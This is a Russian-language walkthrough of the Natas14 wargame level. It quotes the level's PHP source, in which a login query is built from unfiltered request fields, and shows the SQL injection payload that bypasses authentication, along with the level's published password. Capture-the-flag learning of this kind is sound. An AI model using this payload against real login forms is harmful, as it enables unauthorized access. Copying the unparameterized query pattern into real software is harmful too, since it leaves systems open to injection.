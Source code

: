 Natas14

Login:natas14
Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

1)На главной странице есть форма авторизации, необходимо ввести логин и пароль для входа. Есть возможность просмотреть исходный код(View sourcecode)
![изображение](https://user-images.githubusercontent.com/54982244/174027965-1019b729-b4b3-4120-9cb6-b1112bc9b76d.png)
2) В исходном коде видно что идет подключение к БД mysql, формируется запрос к БД, при этом нет никакой фильтрации, значит можно провети sql инъекцию для
обхода авторизации.

        <?
        if(array_key_exists("username", $_REQUEST)) {
            $link = mysql_connect('localhost', 'natas14', '<censored>');
            mysql_select_db('natas14', $link);

            $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
            if(array_key_exists("debug", $_GET)) {
                echo "Executing query: $query<br>";
            }

            if(mysql_num_rows(mysql_query($query, $link)) > 0) {
                    echo "Successful login! The password for natas15 is <censored><br>";
            } else {
                    echo "Access denied!<br>";
            }
            mysql_close($link);
        } else {
        ?>

3) Для обхода авторизации в поле login введем такие строки - abc" OR 1=1;-- - 
![изображение](https://user-images.githubusercontent.com/54982244/174030812-e793ce20-c1b2-4d42-9968-da8a181b02be.png)
4) По итогу запрос превратится во что то вроде этого

        SELECT * from users where username="abc" OR 1=1;-- - and password="password";
 
Все что находится после -- - не имеет значения. Остаенется SELECT * from users where username="abc" OR 1=1; В таком случае,если 
одно из условий OR возвращает истину, все выражение возвращает истину. 1=1 в любом случае вернет истину.
Следовательно, мы можем заставить сервер возвращать true в where ,что приведет к тому, что приложение вернет все строки в таблице.
![изображение](https://user-images.githubusercontent.com/54982244/174032203-4dfeca95-d87e-4587-b882-fa294a8e0dc5.png)

